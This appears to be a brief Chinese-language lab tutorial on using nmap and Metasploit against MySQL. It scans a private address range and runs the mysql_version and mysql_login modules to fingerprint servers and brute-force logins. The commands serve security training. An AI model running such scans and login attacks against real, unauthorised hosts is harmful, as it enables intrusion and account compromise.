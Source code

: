 # Metasploit-Mysql

---

 针对目标受害者主机进行信息收集 nmap -sV 192.168.126.170-200

目标攻击者主机开启了3306危险端口。

msfconsole

search mysql_version

use auxiliary/scanner/mysql/mysql_version

show options

set rhosts 192.168.126.170-200

set threads 50

run

---

back

search mysql_login

利用检索到的攻击模块

use auxiliary/scanner/mysql/mysql_login

show options

run
